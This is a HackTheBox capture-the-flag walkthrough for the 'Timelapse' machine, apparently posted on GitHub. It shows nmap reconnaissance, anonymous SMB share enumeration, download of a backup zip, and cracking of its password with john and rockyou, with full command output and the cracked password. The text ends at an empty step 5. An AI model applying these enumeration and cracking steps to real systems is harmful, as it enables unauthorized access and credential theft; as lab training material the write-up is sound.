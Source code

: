 # Timelapse---HackTheBox-Writeup
A guide for the [Timelapse Challenge in HackTheBox](https://app.hackthebox.com/machines/Timelapse)


1. Run [Nmap](https://nmap.org/) ``` sudo nmap -sV -O -Pn -v 10.10.11.152 ```

> <ul>
>    <li>-sV: Probe open ports to determine service/version info</li>
>    <li>-O: Enable OS detection</li>
>    <li>-Pn: Treat all hosts as online -- skip host discovery</li>
>    <li>-v: Increase verbosity level (use -vv or more for greater effect)</li>
> </ul>

  In which we are able to find out that it has:
 - 2 ports running Samba Servers(139 and 445)

```
elrond@kali  ~  sudo nmap -sV -O -Pn -v 10.10.11.152 
Starting Nmap 7.92 ( https://nmap.org ) at 2022-03-31 00:52 EDT
NSE: Loaded 45 scripts for scanning.
Initiating Parallel DNS resolution of 1 host. at 00:52
Completed Parallel DNS resolution of 1 host. at 00:52, 0.02s elapsed
Initiating SYN Stealth Scan at 00:52
Scanning 10.10.11.152 [1000 ports]
Discovered open port 139/tcp on 10.10.11.152
Discovered open port 135/tcp on 10.10.11.152
Discovered open port 445/tcp on 10.10.11.152
Discovered open port 53/tcp on 10.10.11.152
Discovered open port 593/tcp on 10.10.11.152
Discovered open port 636/tcp on 10.10.11.152
Discovered open port 464/tcp on 10.10.11.152
Discovered open port 88/tcp on 10.10.11.152
Discovered open port 389/tcp on 10.10.11.152
Completed SYN Stealth Scan at 00:52, 6.49s elapsed (1000 total ports)
Initiating Service scan at 00:52
Scanning 9 services on 10.10.11.152
Completed Service scan at 00:52, 16.16s elapsed (9 services on 1 host)
Initiating OS detection (try #1) against 10.10.11.152
Retrying OS detection (try #2) against 10.10.11.152
NSE: Script scanning 10.10.11.152.
Initiating NSE at 00:52
Completed NSE at 00:52, 0.22s elapsed
Initiating NSE at 00:52
Completed NSE at 00:52, 0.17s elapsed
Nmap scan report for 10.10.11.152
Host is up (0.089s latency).
Not shown: 991 filtered tcp ports (no-response)
PORT    STATE SERVICE       VERSION
53/tcp  open  domain        Simple DNS Plus
88/tcp  open  kerberos-sec  Microsoft Windows Kerberos (server time: 2022-03-31 12:52:28Z)
135/tcp open  msrpc         Microsoft Windows RPC
139/tcp open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: timelapse.htb0., Site: Default-First-Site-Name)
445/tcp open  microsoft-ds?
464/tcp open  kpasswd5?
593/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp open  tcpwrapped
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
No OS matches for host
TCP Sequence Prediction: Difficulty=259 (Good luck!)
IP ID Sequence Generation: Incremental
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

Read data files from: /usr/bin/../share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 27.69 seconds
           Raw packets sent: 2067 (94.656KB) | Rcvd: 29 (1.848KB)
```

2. Exploiting the [Samba Server](https://www.samba.org/samba/docs/current/man-html/smbclient.1.html)
  <ul><li>Try to connect and list down the shares in the smbclient

> <ul>
>    <li>-N|--no-pass:no password</li>
>    <li>-L|--list:HOST</li>
> </ul>

```
 elrond@kali  ~  smbclient -N -L \\\\10.10.11.152\\
```
```
        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        NETLOGON        Disk      Logon server share 
        Shares          Disk      
        SYSVOL          Disk      Logon server share 
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to 10.10.11.152 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available
```
</li>
  <li> Now that we know some sharenames on the target, let's try connnecting to them
  
  ```
      elrond@kali  ~/Downloads/HackTheBox  smbclient -N \\\\10.10.11.152\\Shares\\
  ```
  ```
      Try "help" to get a list of possible commands.
      smb: \> dir
        .                                   D        0  Mon Oct 25 11:39:15 2021
        ..                                  D        0  Mon Oct 25 11:39:15 2021
        Dev                                 D        0  Mon Oct 25 15:40:06 2021
        HelpDesk                            D        0  Mon Oct 25 11:48:42 2021

                      6367231 blocks of size 4096. 1167073 blocks available
      smb: \> cd Dev
      smb: \Dev\> dir
        .                                   D        0  Mon Oct 25 15:40:06 2021
        ..                                  D        0  Mon Oct 25 15:40:06 2021
        winrm_backup.zip                    A     2611  Mon Oct 25 11:46:42 2021

                      6367231 blocks of size 4096. 1167025 blocks available
      smb: \Dev\> get winrm_backup.zip
      getting file \Dev\winrm_backup.zip of size 2611 as winrm_backup.zip (4.2 KiloBytes/sec) (average 4.2 KiloBytes/sec)
  ```
    
  </li>
  <li>
    And after manually extracting it, we discover that it is a password protected filein which we know need to give this file to John The Ripper via zip2john

```
elrond@kali  ~/Downloads/HackTheBox/Timelapse  zip2john winrm_backup.zip > timelapse.txt
```
```
Created directory: /home/elrond/.john
ver 2.0 efh 5455 efh 7875 winrm_backup.zip/legacyy_dev_auth.pfx PKZIP Encr: TS_chk, cmplen=2405, decmplen=2555, crc=12EC5683 ts=72AA cs=72aa type=8
```


```
elrond@kali  ~/Downloads/HackTheBox/Timelapse  john timelapse.txt --wordlist=/usr/share/wordlists/rockyou.txt
```
```
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
supremelegacy    (winrm_backup.zip/legacyy_dev_auth.pfx)     
1g 0:00:00:00 DONE (2022-03-31 02:08) 4.166g/s 14472Kp/s 14472Kc/s 14472KC/s surkerior..superkebab
Use the "--show" option to display all of the cracked passwords reliably
Session completed.

```
  </li>
  </ul>


4. Decrypting
   Now that we have Figured out the password which is ```supremelegacy``` we can now unzip the file, showing a PFX file ```legacyy_dev_auth.pfx``` 
  which contains the SSL certificate (public keys) and the corresponding private keys of who we presume is a *Developer(Dev)* with the username *legacyy*.
  However accessing the file would prompt another password.
  
5. 
